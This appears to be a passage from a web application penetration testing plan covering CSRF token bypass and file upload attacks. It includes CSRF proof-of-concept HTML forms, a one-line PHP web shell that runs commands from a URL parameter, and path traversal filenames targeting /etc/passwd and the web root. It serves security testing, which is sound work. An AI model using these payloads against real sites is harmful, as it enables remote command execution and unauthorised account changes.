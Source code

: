
## 6. CSRF PROTECTION TESTING

### 6.1 CSRF Token Bypass

**Procedure**:
1. **Remove CSRF Token**:
   ```html
   <form action="/customer/change-password" method="POST">
     <!-- _token field removed -->
     <input name="current_password" value="oldpass">
     <input name="password" value="newpass">
     <input name="password_confirmation" value="newpass">
   </form>
   ```

2. **CSRF Token Reuse**:
   - Capture valid CSRF token
   - Use same token for multiple requests
   - Test token expiration

3. **CSRF via GET**:
   ```html
   <img src="http://yourapp.com/customer/logout">
   <iframe src="http://yourapp.com/customer/policies/1/download">
   ```

---

## 7. FILE UPLOAD SECURITY

### 7.1 Malicious File Upload

**Procedure**:
1. **PHP Shell Upload**:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   Save as: `shell.pdf.php`, `shell.jpg.php`

2. **Path Traversal in Upload**:
   ```
   filename: ../../etc/passwd
   filename: ../../../var/www/html/shell.php
   ```

3. **Content-Type Bypass**:
   - Upload PHP file with `Content-Type: image/jpeg`
   - Upload executable with `Content-Type: application/pdf`

---

## 8. INFORMATION DISCLOSURE
